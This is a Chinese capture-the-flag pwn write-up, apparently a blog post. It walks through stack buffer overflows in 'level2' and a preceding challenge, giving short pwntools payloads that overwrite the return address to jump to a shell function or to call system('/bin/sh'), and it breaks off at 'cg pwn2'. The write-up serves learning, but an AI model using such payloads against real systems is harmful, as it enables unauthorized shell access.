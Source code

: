 ![](https://img-blog.csdnimg.cn/20200305010214104.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
进入子函数：
![](https://img-blog.csdnimg.cn/20200305010223600.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

得到溢出点，然后发现程序内存在获取shell的函数：
![=](https://img-blog.csdnimg.cn/20200305010231258.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
我们将程序劫持并跳转到该位置即可。

计算距离为0x80，可以写出exp：

```python
payload = 'a'*136 + p64(0x400596)
```

得到flag：

![](https://img-blog.csdnimg.cn/20200305010240263.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)


#  level2 

ida载入，看到主函数十分简单。
![](https://img-blog.csdnimg.cn/20200305010256785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

进入子函数，发现溢出点：

![](https://img-blog.csdnimg.cn/20200305010320668.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
计算返回地址的距离为，0x8c。

发现程序中没有了获取shell的函数，我们需要手动设置，先找到system和bin/sh的位置。
![](https://img-blog.csdnimg.cn/20200305010329912.png)

system我们直接在文件内查找：

```python
shaddr = 0x0804A024

e = ELF("./level2")
sysaddr = e.symbols["system"]

payload = 'a' * 0x8c + p32(sysaddr) + p32(0) + p32(shaddr)
```

注意这里中间的空位， 是为了补齐栈帧中返回值的位置，其实我们也可以指定特定的返回值， 然后运行完这个调用后返回到那个位置， 我们这里已经getshell了， 就无所谓了。

运行脚本得到flag：
![](https://img-blog.csdnimg.cn/2020030501034140.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

# cg pwn2

函数处理一堆，其实就一个位置重要，
